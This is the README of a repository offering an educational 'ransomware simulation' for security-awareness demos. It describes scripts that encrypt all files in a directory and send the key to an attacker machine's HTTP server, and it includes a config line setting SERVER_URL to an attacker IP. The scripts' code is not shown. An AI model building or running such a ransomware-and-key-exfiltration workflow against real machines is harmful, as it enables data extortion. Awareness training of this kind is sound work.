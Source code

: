 # 🔒 Ransomware Simulation Attack

![Warning](https://img.shields.io/badge/Security-Awareness-red?style=for-the-badge\&logo=hackaday)
![Python](https://img.shields.io/badge/Python-3.x-blue?style=for-the-badge\&logo=python)
![Linux](https://img.shields.io/badge/Linux-Compatible-yellow?style=for-the-badge\&logo=linux)
![Educational](https://img.shields.io/badge/Use-Educational-green?style=for-the-badge\&logo=bookstack)

---

## ⚠️ Disclaimer

This attack is created **strictly for educational and awareness purposes only**. It simulates the behavior of a ransomware attack to demonstrate the **risks of downloading software from untrusted or pirated sources**. Do **NOT** misuse this attack for malicious purposes. The author is not responsible for any damages caused by misuse.

---

## 📝 Overview

This repository simulates a basic ransomware attack:

* **encrypt.py** → Encrypts files in the current directory and sends the encryption key to the attacker machine.
* **decrypt.py** → Decrypts the encrypted files using the key retrieved from the attacker.
* **receive\_key.py** → Simple HTTP server running on the attacker machine that receives and stores the encryption key.

The goal is to **educate employees or students** about the dangers of unsafe downloads and the importance of security awareness.

---

## ⚙️ How It Works

1. The **attacker machine** must run the key receiver first to receive and store the encryption key.
2. The **encryptor** script encrypts all files in the working directory (except the scripts themselves) and sends the key to the attacker.
3. The **decryptor** script restores the files using the saved key.

---

## 🚀 Setup & Execution

### 1. Clone Repository

```bash
git clone https://github.com/your-username/ransomware-simulation.git
cd ransomware-simulation
```

### 2. Run the Key Receiver (on attacker machine)

On the **attacker machine** (Linux recommended), run:

```bash
python3 receive_key.py
```

This will start listening on port **8080** by default.

### 3. Configure Encryptor (on victim machine)

Edit **encrypt.py** and replace:

```python
SERVER_URL = "http://your ip:8080/upload"
```

with the IP address of the **attacker machine** running `receive_key.py`.

Example:

```python
SERVER_URL = "http://192.168.1.100:8080/upload"
```

### 4. Run Encryptor (on victim machine)

On the **victim simulation machine**, run:

```bash
python3 encrypt.py
```

All files in the directory will now be encrypted.

### 5. Run Decryptor (on victim machine)

Once the key has been retrieved by the attacker, place the file `received_key.key` into the victim’s directory and run:

```bash
python3 decrypt.py
```

This will restore all encrypted files.

---

## 📌 Notes

* This is a **controlled simulation** only. Do not use on sensitive or personal data.
* Best used in a **virtual machine environment** for demonstrations.
* Teaches employees how **real ransomware** can lock files and why **safe downloading habits** are essential.

---

![Awareness](https://img.shields.io/badge/Cybersecurity-Awareness-orange?style=for-the-badge\&logo=shield)
